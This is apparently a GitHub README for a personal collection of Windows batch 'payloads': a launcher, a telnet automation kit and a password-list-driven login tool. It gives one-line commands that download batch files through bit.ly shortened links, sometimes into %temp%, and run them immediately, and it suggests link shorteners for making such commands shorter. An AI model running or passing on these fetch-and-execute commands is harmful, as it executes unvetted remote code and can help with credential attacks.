 # Payloads
A collection of my custom safe (...for now hehe) payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.



## Batchfiles
Here are the individual batchfiles and instructions on how to use them.
> **Warning** <br>
> It is required to write the script into a file with different name **aside from r.bat** since r.bat is the default name that PLs.bat uses to name a payload it downloaded. If you want to use r.bat as the name of your manually downloaded payload, you may fork the repository and change the configuration variables inside PLs.bat.<br>
> For scripts that include `cd %temp% &` in the command, you may change **%temp%** to a different folder of your choice. Be sure to select a directory and make sure that the directory is accessible to avoid errors when running the script.



### PLs.bat
[**PLs**](https://github.com/Jed556/Payloads/blob/main/PLs.bat) is the boss. This is the main launcher and download manager for all payloads.<br>

#### Download and Run PLs.bat
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo pls.bat https://bit.ly/PLs-bat & pls
```

#### Arguments
Without arguments, or with missing arguments, the script will prompt you for the payload to run and the arguments to pass to it. The following table provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**pls 1**|Specifies the **index** of the payload to run (default: none).|
|2|**pls 2 1**|Enables (**1**) or disables (**0**) debug mode (default: 0). This option will be passed to the specified payload.|
|*|**pls 3 0 2**|Arguments starting from index 3 are passed to the specified payload. Check the argument list for the specific payload you want to run, and add 1 to the indexes to understand the indexing better.|



### TelKit
[**Telkit**](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations. <br>

#### Download and Run TelKit
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c cd %temp% & curl -Lo tk.bat https://bit.ly/PLs-tk & tk
```

#### Arguments
When arguments are missing or not provided, the script will prompt you for the telnet service to connect to. Refer to the table below for sample commands that demonstrate how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**tk 0**|Enable (**1**) or disable (**0**) debug mode (default:0)|
|2|**tk 1 1**|Specifies the index of the telnet service to connect to (default: none).|



### LogKey
[**LogKey**](https://github.com/Jed556/Payloads/blob/main/Logkey/logkey.bat) is a custom payload for id login. <br>

**Download and Run LogKey**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo lk.bat https://bit.ly/PLs-lk & lk
```

#### Arguments
If some arguments are not supplied, the script will utilize the default values specified in the script configuration variables. The table below provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**lk 1**|Enable (**1**) or disable (**0**) debug mode (default:0).|
|2|**lk 0 8**|Specifies the length of the id (default: 8).|
|3|**lk 0 8 data/database.txt**|Specifies the URL or PATH to get the data from (default: [This Repository](https://raw.githubusercontent.com/Jed556/Payloads/main/LogKey/data.logkey)).|
|4|**lk 0 8 data/database.txt passwords.txt**|Specifies the name of the data file (default: file name with extension from URL).|
|5|**lk 0 8 data/database.txt passwords.txt 1**|Enable (**1**) or disable (**0**) data preservation (default:0). This prevents from the data copied (**passwords.txt**) from being deleted after use|



> **Note** <br>
> You may add `cd %temp% &` between `cmd /c` and `curl` for the files without a specific **cd** command to download and run inside Windows **%TEMP%** (temporary) folder.<br>
> You may change the file name *(ex. ***pls.bat***)* to a different name of your choice. Be sure to change the name of the file in the command *(& ***pls***)* as well.<br>
> You can adjust the individual configuration variables inside each script to your liking. Be sure to enter the correct values for the variables to avoid errors when running the script.



## Shortcuts
You may use link shorteners to shorten the commands. Here are some great link shorteners that you may use:<br>
- **Bitly**: [bitly.com](https://bitly.com/)<br>
- **Tinyurl**: [tinyurl.com](https://tinyurl.com/)<br>
- **Rebrandly**: [rebrand.ly](https://rebrand.ly/)<br>
- **Is.gd**: [is.gd](https://is.gd/)<br>
> I recommend using [**Bitly**](https://bitly.com/) or [**Tinyurl**](https://tinyurl.com/) since they are the only ones that I have tested so far. <br>